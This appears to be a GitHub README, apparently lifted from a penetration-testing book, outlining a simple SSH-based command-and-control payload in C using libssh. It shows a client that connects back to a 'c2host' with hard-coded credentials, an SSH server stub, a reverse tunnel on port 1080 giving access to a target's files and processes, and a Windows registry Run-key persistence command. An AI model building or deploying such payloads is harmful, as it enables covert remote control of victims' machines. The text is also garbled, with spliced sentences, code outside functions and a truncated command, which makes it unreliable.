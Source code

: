 # A-simple-C2-server-
A  Penetration testing requirement


## C2 Server


SSH serving running on TCP port 443
Chroot jail to contain the SSH server
ModifPayload
Implementation of SSH server on non-standard TCP port
Implementation of SSH client permitting connections back to C2 server
Implementation of SSH tunnels (both local and dynamic) over the SSH
client permitting C2 access to target file system and processes
To implement the requirements for the payload, I strongly advocate using the
libssh library (https://www.libssh.org/) for the C programming language.
This will allow you to create very tight code and gives superb flexibility. This
library will also dramatically reduce your software development time. As
libssh is supported on a number of platforms, you will be able to create
payloads for Windows, OSX, Linux, or Unix with a minimum of code
modification. To give an example of how quick and easy libssh is to use, the
following code will implement an SSH server running on TCP port 900. The
code is sufficient to establish an authenticated SSH client session (using aied SSH configuration to permit remotely forwarded tunnels
username and password rather than a public key):



```
#include <libssh/libssh.h>
#include <stdlib.h>
#include <stdio.h>
#include <windows.h>
int main()
{
ssh_session my_ssh_session;
int rc;
char *password;
my_ssh_session = ssh_new();
if (my_ssh_session == NULL)
exit(-1);
ssh_options_set(my_ssh_session, SSH_OPTIONS_HOST, "c2host");
ssh_options_set(my_ssh_session, SSH_OPTIONS_PORT, 443);
ssh_options_set(my_ssh_session, SSH_OPTIONS_USER, "c2user");
rc = ssh_connect(my_ssh_session);
if (verify_knownhost(my_ssh_session) < 0)
{
ssh_disconnect(my_ssh_session);
ssh_free(my_ssh_session);
exit(-1);
}
password = ("Password");
rc = ssh_userauth_password(my_ssh_session, NULL, password);
ssh_disconnect(my_ssh_session);
ssh_free(my_ssh_session);
}

```


While this code creates an extremely simple SSH server instance:

```
#include "config.h"
#include <libssh/libssh.h>
#include <libssh/server.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <windows.h>
static int auth_password(char *user, char *password){
if(strcmp(user,"c2payload"))
return 0;
if(strcmp(password,"c2payload"))
return 0;
return 1; }
ssh_bind_options_set(sshbind, SSH_BIND_OPTIONS_BINDPORT_STR, 900)
return 0
} int main(){
sshbind=ssh_bind_new();
session=ssh_new();
ssh_disconnect(session);
ssh_bind_free(sshbind);
ssh_finalize();
return 0;
}
```


Finally, a reverse tunnel can be created as follows:

```
rc = ssh_channel_listen_forward(session, NULL, 1080, NULL);
channel = ssh_channel_accept_forward(session, 200, &port);
```

There are exception handling routines built into the libssh library to monitor
the health of the connectivity.
The only functionality described here that's not already covered is persistence.
There are many different ways to make your payload go persistent in
Microsoft Windows and we'll cover that in the next chapter. For now we'll go
the simple illustrative route. I don't recommend this approach in real-world
engagements, as it's pretty much zero stealth. Executed from C:


```
char command[100];
strcpy( command, " reg.exe add
"HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
/v "Innoce
" );
system(command);
```
